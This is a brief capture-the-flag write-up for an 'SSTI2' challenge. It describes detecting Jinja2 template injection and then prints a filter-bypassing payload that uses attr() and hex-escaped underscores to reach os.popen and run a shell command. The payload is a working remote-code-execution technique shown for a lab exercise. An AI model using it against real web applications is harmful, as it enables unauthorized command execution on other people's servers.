


### SSTI2 - Challenge 488

Accesss to the web, try  `{{7*7}}`, got result `49`



maybe jinja, try to exploit like [ssti1](../../easy/ssti1/ssti.md)

It's not work, filtered some character `{}[__]`

Try some encode, but nothings happen

searching on internet [OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

exploited.


